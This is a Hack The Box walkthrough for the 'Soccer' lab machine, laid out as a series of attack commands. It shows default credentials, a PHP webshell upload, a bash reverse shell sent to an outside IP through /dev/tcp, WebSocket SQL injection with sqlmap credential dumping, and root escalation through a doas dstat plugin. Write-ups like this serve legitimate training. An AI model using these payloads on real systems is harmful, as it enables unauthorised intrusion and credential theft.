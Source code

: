 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.194
```

```
nmap -p 22,80,9091 -sCV 10.10.11.194
```

### FFUF (vhost fuzzing)
```bash
ffuf -u http://10.10.11.194 -H "Host: FUZZ.soccer.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### [Feroxbuster](HTTP.md)
```bash
feroxbuster -u http://soccer.htb
```

---

## ⚙️ Initial Access (Tiny File Manager)

### Default creds
- `admin:admin@123`
- `user:12345`

### PHP Webshell
```php
<?php system($_REQUEST['cmd']); ?>
```

### Upload webshell to `/tiny/uploads/`
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

```bash
nc -lvnp 1234
```
### Reverse Shell
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.18/1234 0>%261"'
```

---

## 👤 Priv Esc to `player`

### Check `/etc/nginx/sites-enabled/soc-player.htb`

Update `/etc/hosts`:
```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### WebSocket SQLi Injection
Payload:
```json
{"id": "0 OR 1=1-- -"}
```

### Sqlmap Command (WebSocket)
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
--dbms mysql --batch --level 5 --risk 3 --threads 10
```

Dump credentials:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
-D soccer_db -T accounts --dump --threads 10
```

### Login as Player
```bash
su player  # or SSH
# Password: PlayerOftheMatch2022
```

---

## 🔓 Priv Esc to root

### doas Privilege Escalation
```bash
# Check allowed commands
doas -l

# Write plugin
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

# Trigger plugin
doas /usr/bin/dstat --0xdf
```